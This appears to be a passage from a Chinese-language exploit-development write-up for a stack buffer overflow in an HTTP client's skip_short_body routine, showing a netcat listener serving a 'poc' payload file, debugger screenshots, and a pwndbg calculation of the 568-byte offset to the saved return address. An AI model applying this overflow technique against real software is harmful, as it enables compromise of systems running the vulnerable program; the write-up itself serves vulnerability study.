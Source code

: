 ```python
r #运行
```

同时另一个窗口

```python
nc -lp 9799 < poc
```

![upload successful](/images/pasted-277.png)

strol函数，传递的参数如下：

![upload successful](/images/pasted-278.png)


调用fd_read的时候，往第二个参数0x7fffffffd140内写入传输到内容，即AAAA……

![upload successful](/images/pasted-279.png)
然后返回到skip_short_body函数。为了方便后续的利用，需要计算栈偏移

```python
pwndbg> distance 0x7fffffffd140 $rbp+8
0x7fffffffd140->0x7fffffffd378 is 0x238 bytes (0x47 words)

0x238 = 568
```
